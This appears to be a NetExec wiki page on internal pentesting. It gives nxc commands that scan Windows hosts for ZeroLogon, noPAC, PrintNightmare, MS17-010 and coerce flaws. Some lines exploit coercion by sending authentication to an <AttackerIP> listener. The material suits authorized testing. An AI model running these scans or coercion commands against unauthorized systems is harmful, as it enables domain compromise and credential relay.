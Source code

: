 ```yaml
---
description: Check if host is vulnerable
---
```


# Scan for Vulnerabilities

When you start your internal pentest, these are the first modules you should try:

### ZeroLogon

`nxc smb <ip> -u '' -p '' -M zerologon`

### noPAC

`nxc smb <ip> -u 'user' -p 'pass' -M nopac`

{% hint style="warning" %}
You need a credential for noPAC vulnerability check.
{% endhint %}

### PrintNightmare

`nxc smb <ip> -u '' -p '' -M printnightmare`

### MS17-010 (Not tested outside LAB environment)

`nxc smb <ip> -u '' -p '' -M ms17-010`

Or, try them all at once! Just list each one: `-M zerologon -M printnightmare`

# Scan for Coerce Vulnerabilities

You can check for coerce vulnerabilities such as Petitpotam, DFSCoerce, PrinterBug, MSEven, and ShadowCoerce using the coerce_plus module. You can also use credentials to check for these vulnerabilities.

`nxc smb <ip> -u '' -p '' -M coerce_plus`

If a vulnerability is found, you can exploit it by using the same coerce_plus module

`nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP>`

To run all exploit methods at once, add the ALWAYS=true option

`nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> ALWAYS=true`

You can also check for a specific coerce method by specifying it

`nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam`

{% hint style="success" %}
Instead of using the METHOD option, you can use its short form M. Similarly, the argument LISTENER can be shortened to L.

This also applies to the names of the vulnerabilities when specifying a method.

M=p // Invalid, as both petitpotam and printerbug start with ‘p’ so modules gives error

M=pr // Matches printerbug

M=pe // Matches petitpotam

M=dfs // Matches dfscoerce
{% endhint %}

Check out what other modules are available via `nxc <protocol> -L`

